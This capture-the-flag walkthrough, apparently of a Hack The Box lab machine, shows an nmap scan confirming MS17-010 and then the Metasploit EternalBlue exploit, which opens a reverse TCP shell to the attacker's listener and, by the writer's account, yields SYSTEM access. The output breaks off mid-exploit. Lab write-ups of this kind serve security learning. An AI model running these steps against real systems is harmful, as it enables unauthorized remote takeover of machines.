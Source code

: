 So a few ports open, most of them useless but SMB is open. We can verify it is vulnerable to eternal blue by using nmap.
```
# nmap --script vuln -p 445 10.10.10.40
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-22 00:26 EDT
PORT    STATE SERVICE
445/tcp open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```
Now if we start metasploit and load the exploit we can enter ```show options``` and see that the only information that we really have to enter is the ```RHOST```.
```
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```
I set the ```RHOST``` to the IP of the box and then hit exploit and am given a shell. If I run ```whoami``` It shows I am the ```NT AUTHORITY/SYSTEM```.
```
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.10.40
rhosts => 10.10.10.40
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.14.39:4444 
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
```